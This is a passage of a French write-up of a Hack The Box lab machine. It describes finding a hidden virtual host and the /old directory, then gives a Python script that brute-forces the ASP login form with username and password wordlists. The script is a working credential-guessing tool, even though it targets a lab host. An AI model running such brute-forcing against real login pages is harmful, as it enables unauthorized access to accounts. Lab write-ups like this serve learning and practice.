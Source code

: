 On voit ici clairement un contenu différent du contenu par défaut quand on spécifie l'hôte *members.streetfighterclub.htb*.  

Une ligne dans le fichier */etc/hosts* plus tard et on obtient une erreur 403 *You do not have permission to view this directory or page using the credentials that you supplied.* quand on accède à l'index de ce domaine.  

Cela nous incite à lancer un dir-buster quelconque qui nous remonte rapidement le dossier */old* à la racine.  

Dans ce dossier on trouve ensuite une page de login (*login.asp*) qui envoie les identifiants vers le script *verify.asp* et enfin il y a un script *welcome.asp* qui est sans doute la page sur laquelle on atterrit si l'on saisit des identifiants valides.  

J'ai écrit un script Python rapide pour tester des identifiants possibles (noms d'utilisateurs classiques du type admin, test, web... ainsi que les personnages du jeu) :  

```python
import sys

import requests
from requests.exceptions import RequestException

user_file = sys.argv[1]
pass_file = sys.argv[2]

sess = requests.session()

with open(user_file) as fd:
    for username in fd:
        print("Trying user", username)
        username = username.strip()

        with open(pass_file) as fd2:
            for password in fd2:
                password = password.strip()

                for login_type in (1, 2):
                    try:
                        response = sess.post(
                            "http://members.streetfighterclub.htb/old/verify.asp",
                            data={"username": username, "password": password, "logintype": login_type, "B1": "LogIn"},
                            headers={"referer": "http://members.streetfighterclub.htb/old/Login.asp"},
                            allow_redirects=True,
                            timeout=10
                        )
                    except RequestException as exception:
                        print(exception)
                    else:
                        if "rememberme" not in response.text:
                            print("Special case with {} / {} (type {})".format(username, password, login_type))
                            sess = requests.session()
```
